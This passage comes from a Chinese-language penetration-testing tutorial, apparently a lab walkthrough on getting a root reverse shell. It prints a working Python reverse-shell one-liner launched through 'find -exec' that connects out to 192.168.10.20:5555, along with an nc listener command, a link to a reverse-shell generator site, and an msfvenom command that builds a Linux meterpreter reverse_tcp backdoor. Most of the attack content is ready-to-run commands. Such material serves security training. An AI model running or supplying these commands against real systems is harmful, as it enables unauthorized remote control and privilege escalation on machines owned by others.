 #### 4.4.4.2. 生成python反弹命令

可以用下面的网站一键生成反弹命令

[一键生成shell反弹](https://forum.ywhack.com/reverse-shell/)

```
find 111 -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.20",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' \;
```

![image-20230331103023181](assets/zQi8YBDv5UmlorH.png)

#### 4.4.4.3. 反弹效果

这里也可以通过nc或则python脚本进行反弹，但本质上目的都是获取一个root权限的shell。而且通过nc或者python脚本反弹的shell很可能还是普通用户权限，所以建议直接使用上面那种方法。

```
nc -lvnp 5555
```

![image-20230331103051814](assets/A5Oewg2FtWKEQxr.png)

## 4.5. MSF后门木马反弹

这里我们可以尝试生成一个Linux的后门木马进行反弹，在生成之前需要知道Linux是32位还是64位。

### 4.5.1. 生成后门

我们这里知道操作系统是64位的，所以我们生成一个64位的Linux后门木马。

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.10.20  LPORT=5555 -f elf > shell.elf
```

![image-20230331122326145](assets/viUWz4boCutp1jy.png)
